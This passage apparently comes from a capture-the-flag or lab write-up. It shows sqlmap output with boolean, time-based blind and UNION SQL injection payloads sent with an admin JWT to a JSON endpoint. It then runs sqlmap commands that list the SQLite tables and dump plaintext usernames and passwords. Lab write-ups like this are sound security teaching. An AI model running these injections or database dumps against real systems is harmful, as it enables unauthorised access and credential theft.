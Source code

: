 ```
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxOTEzNjZ9.X-kzWhxfQBtZdgAVHb5Zy-lgeaVULAq1DT_z8uX1Lmc"}],"data":[{"id":"421 AND 5219=5219"}]}

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxOTEzNjZ9.X-kzWhxfQBtZdgAVHb5Zy-lgeaVULAq1DT_z8uX1Lmc"}],"data":[{"id":"421 AND 7923=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))"}]}

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4iLCJleHAiOjE2ODUxOTEzNjZ9.X-kzWhxfQBtZdgAVHb5Zy-lgeaVULAq1DT_z8uX1Lmc"}],"data":[{"id":"-2775 UNION ALL SELECT CHAR(113,113,113,98,113)||CHAR(99,87,97,68,117,77,113,76,120,71,104,84,83,81,118,98,112,120,82,68,75,121,90,82,113,111,113,107,98,69,110,98,67,119,106,83,82,77,106,82)||CHAR(113,113,98,112,113)-- GZLR"}]}
---
[10:57:34] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite

[*] ending @ 10:57:34 /2023-05-27/
```

So, here we can see that `sqlmap` has detected that there is a SQLite database in the back-end. We can further enumerate this database to get more information.

```
$ sqlmap -r req --batch --dbms sqlite --tables
[11:05:56] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[2 tables]
+----------+
| accounts |
| messages |
+----------+

[*] ending @ 11:05:56 /2023-05-27/
```

We have 2 tables here and obviously the more interesting one is `accounts` but let's dump both the table.

```
$ sqlmap -r req --batch --dbms sqlite -t accounts --dump

Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

[11:08:04] [INFO] fetching columns for table 'messages' 
[11:08:04] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
```